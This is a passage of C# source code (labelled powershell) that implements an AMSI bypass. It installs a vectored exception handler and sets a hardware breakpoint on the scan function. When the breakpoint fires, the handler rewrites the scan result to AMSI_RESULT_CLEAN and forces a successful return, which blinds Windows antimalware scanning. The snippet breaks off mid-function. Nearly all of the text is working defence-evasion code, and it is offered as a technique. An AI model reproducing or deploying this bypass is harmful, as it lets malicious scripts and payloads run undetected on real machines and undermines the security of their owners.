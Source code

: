```powershell
        // Setup the Vectored Exception Handler for bypass
        static void SetupBypass()
        {
            // Create and initialize CONTEXT64 structure
            WinAPI.CONTEXT64 ctx = new WinAPI.CONTEXT64 { ContextFlags = WinAPI.CONTEXT64_FLAGS.CONTEXT64_ALL };

            // Get the method information for the Handler method
            MethodInfo method = typeof(Program).GetMethod("Handler", BindingFlags.Static | BindingFlags.Public);
            IntPtr hExHandler = WinAPI.AddVectoredExceptionHandler(1, method.MethodHandle.GetFunctionPointer());
            Marshal.StructureToPtr(ctx, pCtx, true);
            WinAPI.GetThreadContext((IntPtr)(-2), pCtx);

            // Update the CONTEXT64 structure with the current values
            ctx = Marshal.PtrToStructure<WinAPI.CONTEXT64>(pCtx);

            // Enable the breakpoint for function
            EnableBreakpoint(ctx, addr, 0);

            WinAPI.SetThreadContext((IntPtr)(-2), pCtx);
        }

        // Custom exception handler for the Vectored Exception Handler
        public static long Handler(IntPtr exceptions)
        {
            // Marshal the EXCEPTION_POINTERS structure from the exception pointer
            WinAPI.EXCEPTION_POINTERS ep = Marshal.PtrToStructure<WinAPI.EXCEPTION_POINTERS>(exceptions);
            WinAPI.EXCEPTION_RECORD exceptionRecord = Marshal.PtrToStructure<WinAPI.EXCEPTION_RECORD>(ep.pExceptionRecord);
            WinAPI.CONTEXT64 contextRecord = Marshal.PtrToStructure<WinAPI.CONTEXT64>(ep.pContextRecord);

            // Check if the exception is a single step exception and the address is the correct function
            if (exceptionRecord.ExceptionCode == WinAPI.EXCEPTION_SINGLE_STEP && exceptionRecord.ExceptionAddress == addr)
            {
                // Capture the return address and scan result pointer
                ulong returnAddress = (ulong)Marshal.ReadInt64((IntPtr)contextRecord.Rsp);
                IntPtr scanResult = Marshal.ReadIntPtr((IntPtr)(contextRecord.Rsp + (6 * 8))); // 5th arg, swap it to clean

                Console.WriteLine("Buffer: 0x" + contextRecord.R8.ToString("X"));
                Console.WriteLine("Scan Result: 0x" + Marshal.ReadInt32(scanResult).ToString("X"));

                // Modify the scan result to AMSI_RESULT_CLEAN
                Marshal.WriteInt32(scanResult, 0, WinAPI.AMSI_RESULT_CLEAN);

                contextRecord.Rip = returnAddress;
                contextRecord.Rsp += 8;
                contextRecord.Rax = 0; // S_OK

                contextRecord.Dr0 = 0;
                contextRecord.Dr7 = SetBits(contextRecord.Dr7, 0, 1, 0);
                contextRecord.Dr6 = 0;
                contextRecord.EFlags = 0;

                // Set the updated context record back to the exception pointers
                Marshal.StructureToPtr(contextRecord, ep.pContextRecord, true);

```